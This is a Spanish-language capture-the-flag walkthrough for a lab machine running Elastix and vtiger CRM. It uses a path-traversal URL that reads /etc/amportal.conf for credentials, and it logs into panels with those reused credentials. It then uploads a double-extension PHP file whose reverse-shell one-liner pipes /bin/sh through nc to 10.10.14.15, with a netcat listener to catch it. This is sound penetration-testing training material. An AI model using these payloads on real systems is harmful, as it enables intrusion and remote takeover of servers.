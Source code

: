 Si miramos el fichero del exploit "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..///etc/amportal.conf%00&module=Accounts&action"
Vemos un fichero de configuracion con credenciales para una base de datos.

Si vamos por el panel de login y probamos usuarios, nos podemos connectar como el usuario admin.

Como tenemos contraseñas, intentamos connectarnos con el usuario admin pero no va.
Intentamos como el usuario root y la misma contraseña y entramos en el panel de configuracion de **webmin**.

> [ ! ] NOTAS: Tito S4vitar nos avanza que se puede ganar accesso al systema desde el dashboard de elastix y tambien del webmin pero aqui tiraremos de otras vias.

## Vuln exploit & Gaining Access {-}

### Ganando accesso desde el vtiger {-}

Si analyzamos la url

```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/net/fib_trie%00&module=Accounts&action
```

, vemos una parte que seria

```bash
https://10.10.10.7/vtigercrm
```

. Si vamos en esta url hay otro panel de session.

Copiando una vez mas las credenciales del usuario admin, podemos entrar en el dashboard de **vtiger CRM**.

Aqui la idea para ganar accesso al systema, viene de una vulnerabilidad que pasa por cambiar el logo de la compania con un fichero de doble extension.

Si vamos a "Settings > Settings > Company Details > edit", aqui vemos que podemos cargar un fichero 
```bash
 .jpg 
```
 para cambiar el logo de la empresa.

1. Creamos un fichero con doble extension s4vishell.php.jpg

   ```php
   <?php
       system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 443 >/tmp/f");
   ?>
   ```

1. Nos ponemos en escucha por el puerto 443

   ```bash
   nc -nlvp 443
   ```

1. Uploadeamos el fichero a la web y cuando le damos a save ya hemos ganado accesso al systema.
